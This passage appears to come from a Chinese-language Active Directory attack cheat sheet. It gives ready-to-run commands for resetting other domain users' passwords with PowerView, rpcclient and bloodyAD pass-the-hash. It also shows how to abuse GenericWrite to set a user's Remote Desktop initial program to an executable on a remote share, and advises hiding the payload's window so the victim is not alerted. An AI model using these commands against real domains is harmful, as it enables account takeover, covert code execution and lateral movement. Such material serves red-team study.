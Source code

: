 	重置其他用户的密码
	Windows 上
	https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
	$user = 'DOMAIN\user1'; 
	$pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
	$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
	$newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
	Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
	Linux 上
	使用 Samba 软件套件中的 rpcclient
	>rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
	使用bloodyAD来pass-the-hash
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B changePassword target_user target_newpwd
#### GenericWrite和远程连接管理器
	https://sensepost.com/blog/2020/ace-to-rce/
	RCM 仅在终端服务器/远程桌面会话主机上处于活动状态。RCM 在最新版本的 Windows (>2016) 上也被禁用，它需要更改注册表才能重新启用。
	$UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
	$UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
	$UserObject.TerminalServicesWorkDirectory = "C:\"
	$UserObject.SetInfo()
	为了不提醒用户，payload 应该隐藏自己的进程窗口并生成正常的图形环境